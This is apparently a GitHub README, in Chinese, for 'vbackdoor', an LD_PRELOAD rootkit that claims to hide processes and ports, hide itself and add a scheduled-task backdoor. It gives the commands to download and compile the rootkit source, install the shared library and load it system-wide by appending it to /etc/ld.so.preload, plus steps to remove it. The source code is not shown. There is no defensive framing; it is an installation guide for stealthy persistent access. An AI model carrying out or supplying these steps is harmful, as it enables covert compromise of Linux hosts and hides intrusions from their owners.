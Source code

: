 # vbackdoor
使用 LD_PRELOAD rootkit 技术进行隐藏进程、隐藏端口、后门添加、自我隐藏

### 编译（使用时修改vbackdoor.c内容）

```
git clone https://github.com/tian1002/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

或者

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### 载入后门

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```

### 卸载后门

```
vi /etc/ld.so.preload
```
并删除内容 /usr/local/lib/vbackdoor.so

或者

使用busybox

```
busybox rm -rf /etc/ld.so.preload
```

  * 进程隐藏
  * LD_PRELOAD 隐藏
  * 端口隐藏
  * 计时任务后门
